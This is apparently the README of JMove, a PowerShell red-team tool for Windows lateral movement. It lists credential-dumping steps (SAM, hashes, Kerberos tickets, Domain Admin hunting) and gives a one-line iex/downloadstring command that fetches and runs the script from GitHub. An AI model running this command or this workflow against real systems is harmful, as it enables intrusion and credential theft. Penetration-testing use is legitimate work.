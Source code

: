 # JMove
Lateral Movement within Windows environments

JMove is a PowerShell tool that is designed to aid in lateral movement within a Windows environment. 

This tool enables you to use new credentials, such as usernames and passwords or hashes or tickets, to perform pass-the-password, pass-the-hash, overpass-the-hash, or pass-the-ticket actions. 

The tool can handle both domain or local credentials, providing a versatile solution for network penetration testing. 

Once the credential material is provided, JMove will

- Enumerate Active Directory (AD) for servers or workstations, or work with a provided list of hostnames

- Run a port 135 scan to check for alive hosts, and enumerate if you have local admin access to those hosts

- Enumerate AD Domain and Enterprise Admins

- Enumerate users sessions on those hosts where you have local admin access

- Check if any Domain or Enterprise Admin has a session on any of those hosts

- Dump SAM from those hosts

- Dump hashes and tickets from those hosts then save them into your current folder

- Check for the presence of Domain or Enterprise Admins tickets or hashes in the dumps

Run as follows:

`iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/Leo4j/JMove/main/JMove.ps1')`

Credits:

Rubeus

@Credit to: https://github.com/GhostPack/Rubeus && https://github.com/gentilkiwi/kekeo/

Mimikatz

Benjamin DELPY gentilkiwi ( benjamin@gentilkiwi.com )

Invoke-SMBClient

Kevin-Robertson - https://github.com/Kevin-Robertson/Invoke-TheHash/blob/master/Invoke-SMBClient.ps1

Invoke-SMBExec

Kevin-Robertson - https://github.com/Kevin-Robertson/Invoke-TheHash/blob/master/Invoke-SMBExec.ps1

Import-ActiveDirectory

samratashok - https://raw.githubusercontent.com/samratashok/ADModule/master/Import-ActiveDirectory.ps1

Find-WMILocalAdminAccess

samratashok - https://github.com/samratashok/nishang

SharpSecDump

G0ldenGunSec - https://github.com/G0ldenGunSec/SharpSecDump

Get-LoggedInUser

Paul Contreras - https://thesysadminchannel.com/get-logged-in-users-using-powershell/
